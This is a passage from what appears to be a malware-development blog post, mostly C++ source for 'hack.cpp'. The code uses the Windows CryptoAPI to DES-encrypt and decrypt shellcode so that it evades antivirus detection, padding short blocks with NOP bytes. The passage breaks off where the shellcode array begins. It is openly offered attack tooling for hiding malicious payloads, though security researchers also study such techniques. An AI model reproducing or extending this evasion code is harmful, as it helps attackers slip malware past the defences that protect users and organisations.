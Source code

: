 ```cpp
  for (i = 0; i < n; i++) {
    memcpy(output, my_payload, block_len);
    CryptDecrypt(hKey, 0, (i == n - 1), 0, output, &block_len);
    my_payload += block_len;
    output += block_len;
  }
}
```

as you can see, for simplicity, if payload length is not a multiple of `8`, we fill them in with `\x90`.     

So, finally, full source code is looks like this (`hack.cpp`):       

```cpp
/*
 * hack.cpp - encrypt and decrypt shellcode via DES. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/02/13/malware-av-evasion-11.html
*/
#include <windows.h>
#include <wincrypt.h>
#include <stdio.h>
#pragma comment (lib, "crypt32.lib")

void encrypt_des(const unsigned char *my_payload, unsigned char *output, int my_payload_len, HCRYPTKEY hKey) {
  DWORD block_len = 8;
  int i;
  int n = (my_payload_len / block_len) + (my_payload_len % block_len != 0);
  int padding = block_len - (my_payload_len % block_len);

  for (i = 0; i < n; i++) {
    memcpy(output, my_payload, block_len);
    if (i == n - 1) {
      memset(output + my_payload_len % block_len, '\x90', padding);
    }
    CryptEncrypt(hKey, 0, (i == n - 1), 0, output, &block_len, block_len);
    my_payload += block_len;
    output += block_len;
  }
}

void decrypt_des(const unsigned char *my_payload, unsigned char *output, int my_payload_len, HCRYPTKEY hKey) {
  DWORD block_len = 8;
  int i;
  int n = my_payload_len / block_len;

  for (i = 0; i < n; i++) {
    memcpy(output, my_payload, block_len);
    CryptDecrypt(hKey, 0, (i == n - 1), 0, output, &block_len);
    my_payload += block_len;
    output += block_len;
  }
}

int main() {
  DWORD block_len = 8;
  HCRYPTPROV hProv;
  HCRYPTKEY hKey;
  unsigned int dec_payload_len = 305;

  unsigned char my_payload[] =
```